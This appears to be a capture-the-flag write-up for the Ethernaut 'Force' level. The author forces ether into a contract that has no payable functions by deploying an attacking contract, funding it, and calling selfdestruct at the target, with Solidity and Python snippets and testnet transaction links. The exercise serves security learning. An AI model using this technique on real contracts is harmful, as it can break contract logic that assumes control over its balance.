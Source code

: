 # Force

## Objectives

The goal of this level is to make the balance of the contract greater than zero.

## Solution

From my research, there's several ways of sending funds to a contract that has no `payable` methods:

1. Send funds to the address the contract will be deployed in, because contract addresses are deterministic.

2. Send funds to the contract by destroying of another contract, which sends all of its balance through `selfdestruct(<destination>)`.

3. By making it the recipient of a block reward, which can't be rejected.

Because the instance of the Force contract is already deployed, the easiest way we can complete the objective is through number 2.

## How I did it

1. Deploy an attacking contract called ForceAttack (at: `0xba2C7CAE436F3710500507d1f5cf07229C3d0C66`)

```python
forceattack = ForceAttack.deploy(_from)
```

And make sure the contract can receive funds and also has a function that calls `selfdestruct()` to the contract address of our instance:

```cs
function reload() external payable {}

function forceEtherIntoAddress(address payable _to) external onlyOwner {
    selfdestruct(_to);
}
```

I also optionally added a fallback `receive()` function and made the contract `Ownable` so that only I could call the `selfdestruct()` function (not that anyone would've done it anyway...)

2. Send some funds into the contract.

```python
forceattack.reload({'value': 1000} | _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xcd6a2d6d2e618742a61f919924ac1093fc92b942ee6b22ce95f5961505b9df49

3. Call the function that calls `selfdestruct()` designating my instance address as the recipient of the funds.

```python
forceattack.forceEtherIntoAddress(force.address)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x936c5b1b5131c445f80eb7e38c1d1c766e8134a06c07613b07a7524f33da0faa

4. Confirm that the contract balance is > 0

```python
balance_assertion = force.balance() > 0
print(f'Current balance of the contract is {force.balance()}, is this greater than zero: {balance_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x1e38a8643d2daf32da8841c457d09e68ce397929dc5456cbf8277606e33d8fa5
